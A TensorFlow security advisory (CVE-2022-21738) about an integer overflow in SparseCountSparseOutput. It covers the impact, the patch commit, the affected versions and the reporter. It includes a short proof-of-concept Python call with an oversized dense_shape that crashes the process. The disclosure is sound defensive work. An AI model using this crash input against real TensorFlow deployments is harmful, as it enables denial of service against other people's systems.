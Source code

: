 ## TFSA-2022-019: Integer overflow leading to crash in `SparseCountSparseOutput`

### CVE Number
CVE-2022-21738

### Impact
The [implementation of `SparseCountSparseOutput`](https://github.com/galeone/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/count_ops.cc#L168-L273) can be made to crash a TensorFlow process by an integer overflow whose result is then used in a memory allocation:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseCountSparseOutput(
  indices=[[1,1]],
  values=[2],
  dense_shape=[2 ** 31, 2 ** 32],
  weights=[1],
  binary_output=True,
  minlength=-1,
  maxlength=-1,
  name=None)
```

### Patches
We have patched the issue in GitHub commit [6f4d3e8139ec724dbbcb40505891c81dd1052c4a](https://github.com/galeone/tensorflow/commit/6f4d3e8139ec724dbbcb40505891c81dd1052c4a).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
